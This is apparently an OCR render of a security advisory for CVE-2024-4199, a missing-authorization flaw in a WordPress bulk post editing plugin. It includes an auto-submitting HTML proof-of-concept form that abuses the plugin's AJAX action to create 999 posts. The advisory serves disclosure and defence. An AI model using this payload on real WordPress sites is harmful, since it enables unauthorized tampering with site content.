 ```yaml
---
layout: page
title: CVE-2024-4199
subtitle: Bulk Posts Editing For WordPress <= 4.2.3 - Authenticated (Subscriber+) Missing Authorization
---
```

## Description
The Bulk Posts Editing For WordPress plugin for WordPress is vulnerable to unauthorized access of functionality due to a missing capability check on the plugin's AJAX actions in all versions up to, and including, 4.2.3. This makes it possible for authenticated attackers, with subscriber access and higher, to invoke their corresponding functions. This may lead to post creation and duplication, post content retrieval, post taxonomy manipulation.

## Severity
 4.3 (Medium) [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N)

## Affected Version
    <= 4.2.3

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / aillesim -->
  <body>
    <form action="[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="wpbel&#95;create&#95;new&#95;post" />
      <input type="hidden" name="count" value="999" />
      <input type="hidden" name="post&#95;type" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/ithemeland-bulk-posts-editing-lite/bulk-posts-editing-for-wordpress-423-authenticated-subscriber-missing-authorization
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3085134%40ithemeland-bulk-posts-editing-lite%2Ftrunk&old=2946926%40ithemeland-bulk-posts-editing-lite%2Ftrunk&sfp_email=&sfph_mail=
- https://www.cve.org/CVERecord?id=CVE-2024-4199







